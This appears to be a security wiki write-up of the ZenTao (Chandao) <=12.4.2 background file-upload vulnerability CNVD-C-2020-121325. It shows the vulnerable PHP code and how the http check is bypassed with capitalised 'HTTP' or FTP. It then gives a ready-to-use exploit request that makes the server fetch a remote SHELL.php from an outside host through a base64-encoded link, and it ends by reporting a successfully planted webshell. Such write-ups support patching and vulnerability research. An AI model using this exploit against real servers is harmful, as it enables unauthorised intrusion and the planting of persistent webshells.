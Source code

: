 # Zen Tao 12.4.2 Vulnerability of uploading any file in the background CNVD-C-2020-121325

## Vulnerability Description

Baidu Cloud Security Team monitored that Chandao officially issued a risk notice for file upload vulnerability, which is numbered CNVD-C-2020-121325, and the vulnerability affects Chandao <=12.4.2 version. 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zen Tao <= Version 12.4.2</span>

## Environment construction

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-1-20220313232509623.png)



Call the interface to query version information



```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-14.png)



## Vulnerability reappears

- ✅Vulnerability triggering requires background permissions



View modified code snippets based on vulnerability description



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-2.png)



`Before modification`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



`Modified`



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



The parameters passed here are the version and link address, and then base64 decode them to determine whether they are `http` or `https` protocols. The regular filtering here is not complete, so you can bypass the download of malicious files.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-4.png)



You can capitalize `http` or request `FTP` to bypass the regular



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-6.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-5.png)



Follow up on the `parent::downloadZipPackage` method, and then go to the `zentao\module\client\model.php` file



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



You can simply see here to get the file name passed in link, open the file through `fopen`, and write it to the Zen directory `www/data/client/version`



Check if there is any place to call this method



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-7.png)



Found the `download` method called this vulnerability point, so we have two ways to download malicious files



```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



First, upload a malicious file, either FTP or HTTP



For example, the file URL I uploaded is [`http://peiqi.tech/SHELL.php`](http://peiqi.tech/SHELL.php)



```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



The request address is



```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-8.png)



The directory address for download is `zentaopms\www\data\client\1`


 

The directory is version name



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-9.png)



Successfully uploaded webshell



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zentao-10.png)



## 